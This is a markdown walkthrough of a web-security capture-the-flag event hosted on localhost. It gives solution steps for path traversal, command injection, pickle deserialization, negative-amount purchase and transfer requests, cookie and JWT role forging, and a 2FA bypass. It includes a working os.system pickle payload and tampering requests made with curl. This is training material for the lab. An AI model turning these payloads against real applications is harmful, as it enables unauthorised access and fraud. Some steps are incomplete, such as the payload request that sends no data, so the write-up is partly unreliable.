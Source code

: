 # 🔥 CTF Challenge Solutions – Step-by-Step Guide

## 🚀 Overview
This document provides a **detailed walkthrough** of all challenges in the CTF event, including **exploits, solutions, and techniques** to capture the flags.

✅ **Step-by-step solutions**  
✅ **Command-line examples**  
✅ **Burp Suite & cURL techniques**  
✅ **Real-world exploitation concepts**  

---

## 📂 **Challenges & Solutions**

### 🛠 Path Traversal
**📌 Goal:** Read a flag file by navigating outside the intended directory.  

**🔹 Steps:**  
```sh
ls            # Check for 'flags/' directory
ls flags      # View files inside
cat flags/flag.txt  # Read the flag
```
✅ **Flag captured!**  

---

### 🖥 OS Command Injection
**📌 Goal:** Execute arbitrary commands on the server.  

**🔹 Steps:**  
```sh
ls /flags         # Locate flag files
cat /flags/flag.txt  # Read the flag
```
✅ **Flag captured!**  

---

### 📦 Insecure Deserialization
**📌 Goal:** Exploit unsafe deserialization to execute commands.  

**🔹 Steps:**  
1️⃣ Visit: `http://localhost:5000/canopic_jar`  
2️⃣ Create a **malicious pickle payload**:  
```python
import pickle, base64, os
class Exploit:
    def __reduce__(self):
        return (os.system, ("cat /flags/flag.txt",))
payload = base64.b64encode(pickle.dumps(Exploit())).decode()
print(payload)
```
3️⃣ Send the payload via the web input or:  
```sh
curl -X GET http://localhost:5000/canopic_jar
```
✅ **Flag captured!**  

---

### 🛒 Client-Side Exploit
**📌 Goal:** Manipulate client-side validation to exploit the store.  

**🔹 Steps:**  
1️⃣ **DevTools method:**  
   - Inspect the input field and change the value to `-1000`.  
2️⃣ **cURL method:**  
```sh
curl -X POST -d "price=-1000" http://localhost:5000/store/buy
```
✅ **Flag captured!**  

---

### 🔓 Broken Access Control
**📌 Goal:** Escalate privileges by modifying cookies.  

**🔹 Steps:**  
1️⃣ **DevTools method:**  
   - Open **Developer Tools** → "Application" → "Cookies".  
   - Change `role=user` to `role=admin`.  
   - Reload `/admin` to access restricted content.  
2️⃣ **cURL method:**  
```sh
curl -X GET http://localhost:5000/admin --cookie "role=admin"
```
✅ **Flag captured!**  

---

### 💰 Infinite Money Exploit
**📌 Goal:** Exploit business logic to get unlimited money.  

**🔹 Steps:**  
1️⃣ **DevTools method:**  
   - Change the amount input field to `-1000`.  
2️⃣ **cURL method:**  
```sh
curl -X POST -d "amount=-1000" http://localhost:5000/bank/transfer
```
✅ **Flag captured!**  

---

### 🗝 2FA Bypass
**📌 Goal:** Bypass 2FA by modifying the verification step.  

**🔹 Steps:**  
1️⃣ Log in and intercept `/verify_2fa` request in Burp Suite.  
2️⃣ Modify the request before sending:  
```
2fa=000000&verified=true
```
3️⃣ Submit and gain access!  
✅ **Flag captured!**  

---

### 📝 JWT Manipulation
**📌 Goal:** Modify the JWT token to escalate privileges.  

**🔹 Steps:**  
1️⃣ Copy JWT token from cookies.  
2️⃣ Open **jwt.io** and modify the payload:  
```json
{
  "username": "user",
  "role": "admin"
}
```
3️⃣ Replace the signature with a known weak key:  
```
MAYCAQACAQA=
```
4️⃣ Set the modified JWT in the browser console:  
```js
document.cookie = "auth_token=NEW_JWT_HERE; path=/";
```
5️⃣ Navigate to `/admin`.  
✅ **Flag captured!**  

---

### 🧩 Crypto Challenge
**📌 Goal:** Decrypt a file to retrieve the flag.  

**🔹 Steps:**  
1️⃣ Look for clues on the webpage (HTML source code or JS).  
2️⃣ Find the first part of the flag via a Base64 string.  
3️⃣ Download `secrets.enc` and decrypt it:  
```sh
openssl enc -d -aes-256-cbc -in secrets.enc -out decrypted.txt -k "TutankhamunsCurse"
```
4️⃣ Read `decrypted.txt` for the final flag.  
✅ **Flag captured!**  

---

## 🎯 Summary of Exploits
| Challenge  | Exploit Type  | Exploited Vulnerability |
|------------|--------------|------------------------|
| Path Traversal | File Inclusion | Lack of input validation |
| OS Command Injection | Code Execution | Unfiltered input in system commands |
| Insecure Deserialization | Remote Code Execution | Pickle object injection |
| Client-Side Exploit | Logic Manipulation | Client-side trust without server validation |
| Broken Access Control | Privilege Escalation | Weak role enforcement via cookies |
| Infinite Money Exploit | Business Logic Flaw | Lack of validation on transaction amounts |
| 2FA Bypass | Authentication Flaw | Manipulation of verification request |
| JWT Manipulation | Authentication Flaw | Weak signature verification |
| Crypto Challenge | Cryptography | Weak encryption or leaked key |

---

## 🏆 Final Thoughts
🚀 These challenges demonstrate real-world security flaws that can be **exploited in vulnerable applications**.  
🔍 **Test, learn, and improve your hacking skills!**  

🛠 **Happy Hacking!** 🛠  
